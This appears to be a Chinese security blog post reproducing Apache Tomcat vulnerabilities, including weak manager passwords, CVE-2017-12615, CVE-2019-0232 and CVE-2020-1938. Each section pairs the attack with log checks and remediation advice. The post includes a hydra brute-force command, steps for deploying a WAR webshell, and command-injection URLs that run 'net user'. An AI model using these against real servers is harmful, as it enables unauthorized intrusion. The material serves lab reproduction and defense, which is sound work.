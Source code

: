 # Tomcat常见漏洞复现



#### 后台管理页面弱口令
默认：`http://127.0.0.1:8080/manager/html`页面只允许本地访问，除非管理员手工修改了这些属性

**1.尝试登录后台**
1.尝试默认账户密码：`tomcat:tomcat`
2.如果不是，尝试用弱口令字典进行爆破
```bash
# hydra爆破manager后台
hydra -L user.txt -P user.txt -f 10.10.10.81 -s 8080 http-get /manager/html
```

**2.部署war包**
```
# war包生成
jar -cvf xx.war xx.jsp
```
![](http://image.xpshuai.cn/tomcat_gen_war.png)

**3.部署后, 访问马**
访问 `http://127.0.0.1:8080/war 包名(无后缀) / 包名内文件名` 

**4.后续操作**


###### 安全检查
查看tomcat日志
```bash
tail /root/tomcats/apache-tomcat-xxx/logs/xxxx_log
# 如果出现大量401，就可能正在被爆破
```

查看部署的war包
```bash
# 部署路径在tomcat的webapps目录下，进行检查

# 查看部署war包的日志(tomcat的logs下)，是否有部署的痕迹
```


###### 修复建议
1. 若无必要,取消 manager/html 功能。
2. 若要使用, manager 页面应只允许本地 IP 访问




#### 任意文件写入(CVE-2017-12615)
漏洞本质是 Tomcat 配置文件 /conf/web.xml 配置了可写( readonly=false ),导致我们可以往服务器写文件:

**条件：**
1. 服务器开启了put方法； 
2. 同时tomcat存在后缀解析漏洞

###### 复现
正常状况：
![](http://image.xpshuai.cn/tomcat_file_w_ok.png)
利用成功：
![](http://image.xpshuai.cn/tomcat_file_w_ok.png)
![](http://image.xpshuai.cn/tomcat_CVE20190232_ok.png)


###### 安全检查
查看日志内容，如果方法是PUT， 且状态码为201，就要注意了

###### 防御措施
1. 禁用PUT方法(默认是禁止的，开启REST API的情况下可能会开启  --> 和业务保持沟通)
2. 设置强密码或删除Web控制台，以及示例页面(可能暴露信息)，关闭报错页面提示
3. 将 readonly=true ,默认为 true 



#### 远程代码执行(CVE-2019-0232)
影响范围: 9.0.0.M1 ~ 9.0.17, 8.5.0 ~ 8.5.39 , 7.0.0 ~ 7.0.93
影响系统: Windows

###### 环境搭建
手头暂时没windows系统，从网上借鉴了一下

配置Apache Tomcat服务器（修改conf目录配置文件，启用CGI）
1、打开Tomcat安装目录的apache-tomcat-8.5.39\conf\web.xml修改如下配置，在默认情况下配置是注释的。
![](http://image.xpshuai.cn/tomcat_CVE20190232.png)

 

2、打开Tomcat安装目录的`apache-tomcat-8.5.39\conf\context.xml`修改如下配置，添加privileged="true" 。
![](http://image.xpshuai.cn/tomcat_CVE20190232_2.png)


3、在apache-tomcat-8.5.39\webapps\ROOT\WEB-INF目录新建一个cgi-bin文件夹，创建一个test.bat的文件，内容随意


###### 漏洞利用
POC
```
# 访问
http://127.0.0.1:8080/cgi-bin/test.bat?&dir

# 执行命令
http://127.0.0.1:8080/cgi-bin/test.bat?&C:/WINDOWS/system32/net+user
```

**Note:**
net 命令的路径要写全,直接写 net user , Tomcat 控制台会提示net 不是内部命令,也不是可运行的程序,另 `必须使用 + 号连接`,使用 空格 ,%2B 都会执
行失败,控制台报错。



#### 文件包含漏洞(CVE-2020-1938)
该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行。目前，厂商已发布新版本完成漏洞修复。

**受影响版本**
- Apache Tomcat 6
- Apache Tomcat 7 < 7.0.100
- Apache Tomcat 8 < 8.5.51
- Apache Tomcat 9 < 9.0.31

**不受影响版本**
- Apache Tomcat = 7.0.100
- Apache Tomcat = 8.5.51
- Apache Tomcat = 9.0.31


###### 文件包含RCE复现
**POC：**
https://github.com/0nise/CVE-2020-1938
https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-Ajp-lfi-POC

利用文章：
https://www.cnblogs.com/Rain99-/p/12517660.html
https://blog.csdn.net/SouthWind0/article/details/105147369/


###### 防护措施
1. 更新到安全版本
2. 关闭AJP服务，修改Tomcat配置文件Service.xml,注释掉：`<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />`
3. 配置ajp配置中的secretRequired跟secret属性来限制认证


###### 参考
https://www.cnvd.org.cn/webinfo/show/5415





---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/tomcat%E5%B8%B8%E8%A7%81%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

